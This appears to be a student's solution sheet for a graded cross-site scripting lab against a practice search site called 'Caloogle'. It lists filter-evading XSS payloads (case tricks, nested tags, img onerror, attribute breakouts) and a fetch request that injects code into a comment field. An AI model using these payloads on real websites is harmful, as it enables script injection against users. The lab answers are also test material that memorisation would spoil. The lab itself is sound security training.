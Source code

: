 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
TODO: <script>success("HackedbyDedSec")</script>
```

# 2. No Script Allowed (3 points)

```
TODO: <scriptscript>success("HackedbyDedSec")</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
TODO: <scripscriptt>success("HackedbyDedSec")</scripscriptt>
```

# 4. An Open-and-Shut Case (3 points)

```
TODO: <SCRIPT>success("HackedbyDedSec")</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
TODO: <scRIPT>success("HackedbyDedSec")</scRIPT>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
TODO: <img src=x onerror=success("HackedByDedSec")>
```

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: <img src=x onload=onerror = success("HackedByDedSec")>
```

# 8. Angle of Death (6 points)

Attack input:

```
TODO: <<img src=x onerror=success("HackedByDedSec")>>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: " onload=success("HackedByDedSec") "
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: "" onload=success("HackedByDedSec") ""
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: ' onload=success("HackedByDedSec") ' 
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL: http://caloogle.xyz:4140/search?q=ss&lang=en " onload=success("HackedByDedSec") "

```
TODO: http://caloogle.xyz:4140/search?q=ss&lang=en ' onload=success("HackedByDedSec") '
```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: </script><script>success()</script>
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: <<//script><script>success()<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
```

# 18. Congrats

N/A

# Əlavə qeydlər

```
Əlavə qeydlərinizi yazın
```

